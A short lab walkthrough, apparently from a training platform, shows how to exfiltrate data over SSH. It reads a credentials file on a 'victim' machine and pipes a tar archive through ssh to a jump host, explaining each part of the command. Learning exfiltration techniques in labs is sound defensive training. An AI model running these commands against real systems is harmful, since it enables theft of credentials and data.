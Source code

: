 # Exfiltration using SSH

The SSH protocol establishes a secure channel to interact and move data between the client and server. All transmission 
data is encrypted over the network or the Internet. To transfer data over SSH, use either the Secure Copy Protocol
(SCP) or the SSH client.

The server in this task has an SSH server enabled, so we can send and receive any exfiltrated data from it.

Connect to the victim1 or victim2 machine and check the data to be exfiltrated:

    ssh thm@<IP jumphost>
    thm@victim1:~$ cat task5/creds.txt

Wrap it up in an archive and send it to the jump host:

    thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"

* `tar cf - task5/` - create an archive. The second dash belongs with the `f` meaning instead of creating a named 
file in the filesystem, write the tarred up files onto stdout.
* `ssh thm@jump.thm.com` - ssh into the jump host and ...
* `"cd /tmp/; tar xpf` - change the directory and unarchive the passed file.

Check the received data:
			
    thm@jump-box$ cd /tmp/task5/
    thm@jump-box:/tmp/task5$ cat creds.txt
